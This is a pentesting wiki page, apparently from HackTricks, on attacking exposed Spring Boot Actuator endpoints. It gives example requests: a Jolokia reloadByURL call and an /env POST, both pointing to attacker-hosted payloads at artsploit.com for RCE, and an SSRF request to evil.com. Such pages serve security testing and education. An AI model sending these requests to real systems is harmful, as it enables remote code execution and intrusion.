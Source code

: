 # Spring Actuators

{{#include ../../banners/hacktricks-training.md}}

## **Spring Auth Bypass**

<figure><img src="../../images/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

- Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
- Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  - `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
- In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   - The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   - The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   - Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:

   - If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   - Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   - Example exploit POST request:

     ```
     POST /env HTTP/1.1
     Host: 127.0.0.1:8090
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 65

     eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
     ```

3. **Other Useful Settings**:
   - Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

- A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1.  **Env + H2 RCE**:
    - Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).

2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   - The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   - Example exploit request:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

    {{#include ../../banners/hacktricks-training.md}}




{{#include /src/banners/hacktricks-training.md}}
